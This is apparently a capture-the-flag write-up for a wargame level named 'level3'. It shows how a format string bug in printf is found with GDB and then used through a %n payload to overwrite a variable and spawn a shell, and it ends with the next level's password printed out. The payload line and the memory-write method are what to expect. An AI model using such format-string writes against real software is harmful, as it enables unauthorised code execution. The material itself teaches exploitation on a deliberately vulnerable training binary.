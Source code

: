 Here is a detailed README for exploiting `level3` using a format string vulnerability.

---

# Level3 Exploit

## Description

This guide explains how to exploit a format string vulnerability in the `level3` program. The goal is to set a specific variable to a value that will trigger the execution of a function which launches a shell.

## Prerequisites

- Access to the `level3` executable.
- Tools: GDB, Python.

## Exploitation Steps

### 1. Decompile the Binary

Use Ghidra or a similar tool to decompile the `level3` binary to understand its functionality.

### 2. Check Available Functions

Examine the available functions to identify any potential vulnerabilities:
- The `main` function calls a function `v`.
- The `v` function contains a call to `printf` without format string specifiers, making it vulnerable to format string attacks.
- The `v` function also uses an undeclared variable `m`. If `m` is set to `0x40` (64 in decimal), it will launch a shell.

### 3. Find the Variable Address

Use GDB to find the address of the variable `m`:

```bash
gdb level3
```

```gdb
info variables
```

Identify the address of `m`, for example: `0x0804988c`.

### 4. Set the Correct Value to the Variable

To set the value of `m` to `64`, use GDB:

```gdb
set *0x0804988c = 64
```

Verify the value:

```gdb
p *0x0804988c
```

You should see `0x40` (which equals 64). Continue the program:

```gdb
c
```

You should now have a shell:

```gdb
Continuing.
AAAA
AAAA
Wait what?!
[Attaching after process 173694 vfork to child process 173723]
[New inferior 2 (process 173723)]
[Detaching vfork parent process 173694 after child exec]
[Inferior 1 (process 173694) detached]
process 173723 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: Function "v" not defined.
[Attaching after process 173723 fork to child process 173724]
[New inferior 3 (process 173724)]
[Detaching after fork from parent process 173723]
[Inferior 2 (process 173723) detached]
process 173724 is executing new program: /usr/bin/dash
$ ls
```

However, because the SUID of the level binary can't be exploited in GDB, it runs as a normal user ID, so `level4/.pass` can't be read with this method.

### 5. Exploit the Format String Vulnerability

Exploit the format string vulnerability in `printf`:

#### Step 1: Determine the Offset

First, determine at which position `printf` starts to write the given string. Use this input string in GDB:

```bash
gdb level3
```

```gdb
run
```

```gdb
AAAAAAAAAAA%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

You should see output similar to:

```
AAAAAAAAAAA00000200.b7fd1ac0.b7ff37d0.41414141.41414141.25414141.2e783830.78383025.3830252e
```

Here, the value `41414141` (which corresponds to `AAAA` in ASCII) appears. We find that the `printf` argument position is at the 4th position.

#### Step 2: Create the Exploit

Now we have all the information to exploit the format string vulnerability:
- The address of `m` in little-endian format is `\x8c\x98\x04\x08`.
- We need to put the value `64` (0x40) in the 4th position of the stack preceding the `printf` call stack use.

Construct the input string using Python:

```bash
python -c 'print("\x8c\x98\x04\x08%60d%4$n")'
```

`%60d` will write 60 bytes on the standard output, and `%4$n` means to put the preceding content size (`%60d` (=60) + address string (4 length) = 64) at the fourth chunk before the `printf` stack use.

#### Step 3: Run the Exploit

Run the exploit, keeping `stdin` open:

```bash
(python -c 'print("\x8c\x98\x04\x08%60d%4$n")' ; cat) | ./level3
```

Once the shell is opened, you can execute commands:

```bash
cat /home/user/level4/.pass  
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

### Explanation

1. **Format String Vulnerability**: `printf` without format specifiers allows for unintended memory reads and writes.
2. **%n Specifier**: Used to write the number of bytes printed so far to an address specified on the stack.
3. **Offset Calculation**: Determining where the format string parameters are on the stack to correctly position the address of `m`.
4. **Exploit String**: Crafted to write the desired value (`64`) to the variable `m`.

## Conclusion

By following these steps, you have successfully exploited a format string vulnerability to gain shell access on `level3`. This technique uses knowledge of format string exploits and basic stack manipulation.

---

This README guides you through all the necessary steps to reproduce and understand the exploit.